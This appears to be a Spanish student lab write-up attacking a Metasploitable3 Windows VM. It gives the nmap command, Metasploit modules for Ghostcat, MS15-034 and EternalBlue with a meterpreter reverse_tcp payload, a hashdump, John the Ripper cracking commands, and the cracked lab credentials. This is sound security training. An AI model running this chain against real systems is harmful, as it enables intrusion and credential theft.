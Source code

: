 # MS3-WIN

## Enumeración

```
sudo nmap -sV -T4 -p- 10.0.2.14
```

![[Hacking_Etico/Proyecto_5/images/image.png]]
## CVE-2021-41381

Está pendiente de análisis.
https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2021-41381

## CVE-2016-6794

No explotable.

## CVE-2010-0219

No explotable.

## CVE-2020-1938

Ejecutando el siguiente módulo en Metasploit:

```
auxiliary/admin/http/tomcat_ghostcat
```

Hemos podido leer un archivo extraído del servidor Tomcat (puerto 8009); es decir, se muestra el contenido de un archivo XML (web.xml en este caso) que contiene la configuración básica de la aplicación web de Tomcat.

![[Hacking_Etico/Proyecto_5/images/image-1.png]]

## CVE-2015-1635

Haciendo uso del siguiente módulo de Metasploitable:

```
scanner/http/ms15_034_http_sys_memory_dump
```

Obtenemos un volcado hexadecimal junto con su representación en ASCII. Esto indica que se ha capturado parte de la respuesta HTTP generada por el servidor y que es vulnerable a ataques que explotan el manejo inadecuado de solicitudes HTTP.

![[Hacking_Etico/Proyecto_5/images/image-2.png]]

## CVE-2017-0143 (ETERNALBLUE)

Ejecutando el módulo de`exploit/windows/smb/ms17_010_eternalblue`con el payload de`windows/x64/meterpreter/reverse_tcp`pudimos abrir una sesión de meterpreter.

![[Hacking_Etico/Proyecto_5/images/image-3.png]]

Hacemos un`hashdump`y obtenemos todos los hashes de las contraseñas de los usuarios del sistema:

![[Hacking_Etico/Proyecto_5/images/image-4.png]]

Copiamos este resultado a un fichero llamado`hash.txt`y utilizamos `John the Ripper`:

```
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Obtuvimos los credenciales de dos usuarios del sistema:

- **Administrato**r: vagrant
- **c_three_pio**: pr0t0c0l

![[Hacking_Etico/Proyecto_5/images/image-5.png]]
# Windows Server 2016 - El Ventanal de Guillermo